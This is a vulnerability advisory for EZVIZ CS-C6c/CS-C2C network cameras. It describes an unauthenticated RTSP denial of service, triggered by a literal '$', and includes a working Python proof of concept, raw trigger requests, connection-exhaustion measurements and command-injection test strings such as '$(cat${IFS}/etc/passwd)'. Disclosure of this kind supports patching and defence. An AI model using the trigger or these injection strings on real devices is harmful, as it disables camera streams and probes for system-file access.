




# EZVIZ CS-C6c/CS-C2C - Unauthenticated RTSP Connection Exhaustion via Literal "$" Parser Hang

### Information

Vendor: Hangzhou Ezviz Network Co., Ltd. (EZVIZ / 杭州萤石网络股份有限公司)

Affected Product: EZVIZ CS-C6c (CS-C6c-V101-1J4WF) and EZVIZ CS-C2C (CS-C2C-1D2WFR-B) network cameras

Affected Firmware Version: CS-C6c: V5.3.8 build 231128; CS-C2C: V5.3.4 build 230420

Vendor Homepage: [https://www.ezviz.com/](https://www.ezviz.com/)

Vendor Contact Information: [security@ezviz.com](mailto:security@ezviz.com) (EZVIZ Security Response Center: https://www.ezviz.com/us/trust-center/security/response-center)



Affected Component: RTSP service (TCP/554)


### Description

An unauthenticated resource exhaustion vulnerability exists in the RTSP service of EZVIZ CS-C6c (CS-C6c-V101-1J4WF, firmware V5.3.8 build 231128) and EZVIZ CS-C2C (CS-C2C-1D2WFR-B, firmware V5.3.4 build 230420). A request containing a literal "$" character in the request URI or in a header value causes the RTSP service to stop processing the request and send no RTSP response, leaving the TCP connection occupied. Holding approximately 90 such unauthenticated connections exhausts the RTSP connection table and blocks new RTSP clients; closing the held connections restores service. Repeated or concurrent requests can therefore cause a denial of service against the RTSP service.

### Exploit Demo

The RTSP service returns `200 OK` for a normal `OPTIONS` request. The PoC then sends an `OPTIONS` request whose request URI is `rtsp://<target>:554/$x`; the service ACKs the request at the TCP layer but sends no RTSP response for 30 seconds, and the connection remains occupied. The terminal output is shown below:



Wireshark shows the baseline `200 OK`, the trigger request, TCP keep-alive ACKs, and no RTSP response; the client closes the connection after its own 30-second timeout:



The TCP stream shows the complete trigger request with `/$x` in the request URI:



The confirmed trigger surface covers the request URI and multiple header values:

| Position | Tested values | Result |
|---|---|---|
| Request URI | `/$x`, `/tmp/$x`, `/tmp/$1`, `/tmp/a$b`, `/tmp/$$`, `/tmp/${IFS}`, `/?a=$b` | no RTSP response; no device FIN/RST |
| Percent-encoded control | `/a%24b` | `200 OK` |
| User-Agent | `UA$test` at OPTIONS, DESCRIBE_1/2, SETUP_1/2, PLAY, TEARDOWN | no response |
| CSeq | `2$test` at all seven stages | no response |
| Transport | `RTP/AVP/TCP;unicast;interleaved=0-1;x=$` at SETUP_1/2 | no response |
| Session | `$test` at SETUP_2, PLAY, TEARDOWN | no response |
| Range | `npt=$-` at PLAY | no response |
| Accept | `application/$test` at DESCRIBE_2 | no response |
| From | `from$test` at OPTIONS | no response |
| Authorization username | `username="<username>$(id)"` at DESCRIBE_2 | no response |

Pure backtick, semicolon, pipe and `&&` controls returned `200 OK`; the trigger is the literal `$`, not generic shell metacharacters. The device's fuzzer corpus also contains seven "command injection" records whose only anomaly is a timeout and whose URIs contain `$(id)` or `$(cat${IFS}/etc/passwd)`; all seven reproduced the hang. Sixty-five `$`-bearing timeout logs were consolidated as supporting evidence.

The availability impact was measured by holding concurrent `$`-hung connections:

| Held `$` connections | New RTSP client |
|---:|---|
| 10 / 20 / 50 / 60 / 70 / 80 | `200 OK`; full DESCRIBE/SETUP still works |
| 90 / 100 | `ConnectionResetError` |
| 100, held 10/20/30 s | continuous RST |
| after closing the held connections | `200 OK` |

The C2C series showed the same threshold behavior at 90/100/120 held connections. An optional amplification check in the analysis directory reproduces the 90-connection result on the C6c test unit: `new client failed: ConnectionResetError`; closing the held connections restores `200 OK`. This is a demonstrated remote unauthenticated denial of service against the RTSP service.

A 52-second screen recording of the full reproduction is provided as [04_reproduction_video.mp4](./images/04_reproduction_video.mp4). It shows the baseline `200 OK`, the `/$x` trigger, the 30-second no-response window, and the resource-exhaustion check.


### POC

The following standalone Python 3 PoC reproduces the representative trigger. Replace `TARGET_IP`, `USERNAME` and `PASSWORD` with the test device values. The trigger request is defined explicitly in the code.

```python
#!/usr/bin/env python3
"""EZVIZ CS-C6c literal '$' RTSP parser-hang PoC.

Hardcoded target: 192.168.1.100:554 (placeholder).
The RTSP service stops processing a request and sends no RTSP response when
the request URI contains a literal '$'. The trigger connection remains
occupied without a response.
Run this file directly from VS Code.
"""

import socket
import time

TARGET_IP = "192.168.1.100"  # replace with the target camera IP
TARGET_PORT = 554

# Not required for this unauthenticated trigger.
USERNAME = "REDACTED"  # replace with the account username
PASSWORD = "REDACTED"  # replace with the account password

REQUEST_INTERVAL = 1.0
RESPONSE_WAIT = 30.0
USER_AGENT = "LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)"

BASE = "rtsp://%s:%d" % (TARGET_IP, TARGET_PORT)

# Request 1: normal OPTIONS. The EZVIZ RTSP service returns 200 here.
BASELINE_OPTIONS = (
    "OPTIONS " + BASE + " RTSP/1.0\r\n"
    "CSeq: 2\r\n"
    "User-Agent: " + USER_AGENT + "\r\n\r\n"
)

# Request 2: the trigger. The request URI contains a literal '$'.
TRIGGER_URI = BASE + "/$x"
TRIGGER_REQUEST = (
    "OPTIONS " + TRIGGER_URI + " RTSP/1.0\r\n"
    "CSeq: 3\r\n"
    "User-Agent: " + USER_AGENT + "\r\n\r\n"
)


def show_payload(payload):
    text = payload if isinstance(payload, str) else payload.decode("latin-1")
    print("  send:")
    for line in text.rstrip("\r\n").split("\r\n"):
        if len(line) > 120:
            line = line[:90] + "... [%d bytes total]" % len(line)
        print("    | " + line)


def read_status(stream):
    status = stream.readline()
    if not status:
        return None
    if not status.startswith(b"RTSP/1.0 "):
        return "unexpected status line"
    headers = []
    while True:
        line = stream.readline()
        if not line:
            return None
        if line in (b"\r\n", b"\n"):
            break
        headers.append(line.decode("latin-1").rstrip("\r\n"))
    for line in headers:
        if line.lower().startswith("content-length:"):
            length = int(line.split(":", 1)[1].strip())
            remaining = length
            while remaining:
                chunk = stream.read(remaining)
                if not chunk:
                    break
                remaining -= len(chunk)
            break
    return status.decode("latin-1").strip()


def send_and_read(sock, stream, label, payload, timeout):
    print("\n" + label)
    show_payload(payload)
    time.sleep(REQUEST_INTERVAL)
    try:
        sock.sendall(payload.encode("latin-1"))
        sock.settimeout(timeout)
        status = read_status(stream)
    except socket.timeout:
        print("  -> TIMEOUT: no RTSP response within %.1fs" % timeout)
        return None
    except (OSError, ValueError) as exc:
        print("  -> %s: %s" % (type(exc).__name__, exc))
        return None
    print("  <- " + (status or "connection closed"))
    return status


def main():
    print("=" * 72)
    print("EZVIZ CS-C6c literal '$' RTSP parser-hang PoC")
    print("  target: %s:%d" % (TARGET_IP, TARGET_PORT))
    print("  trigger: OPTIONS with a literal '$' in the request URI")
    print("=" * 72)

    sock = socket.create_connection((TARGET_IP, TARGET_PORT), timeout=5)
    stream = sock.makefile("rb")
    try:
        status = send_and_read(
            sock, stream, "[1/2] Baseline OPTIONS", BASELINE_OPTIONS, 5.0)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Baseline OPTIONS did not return 200; aborting.")
            return

        print("\n" + "=" * 72)
        print(">>> TRIGGER: [2/2] OPTIONS with a literal '$' in the request URI <<<")
        print(">>> The malformed request should receive no RTSP response. <<<")
        print("=" * 72)
        send_and_read(
            sock, stream, "[2/2] TRIGGER OPTIONS", TRIGGER_REQUEST, RESPONSE_WAIT)
        print("\nThe malformed request occupies the connection without a response.")
        print("Repeated or concurrent requests may exhaust RTSP connection resources.")
    finally:
        try:
            stream.close()
        except OSError:
            pass
        try:
            sock.close()
        except OSError:
            pass


if __name__ == "__main__":
    main()

```

### MSG

The complete representative request sequence follows. `192.168.1.100` is a placeholder for the target address; `<realm>`, `<nonce>`, `<valid response>` and `<session>` are dynamic values. The second OPTIONS request, carrying `/$x` in the request URI, is the trigger.

```text
OPTIONS rtsp://192.168.1.100:554 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)

OPTIONS rtsp://192.168.1.100:554/$x RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
```

### Credit

CRfuzzer
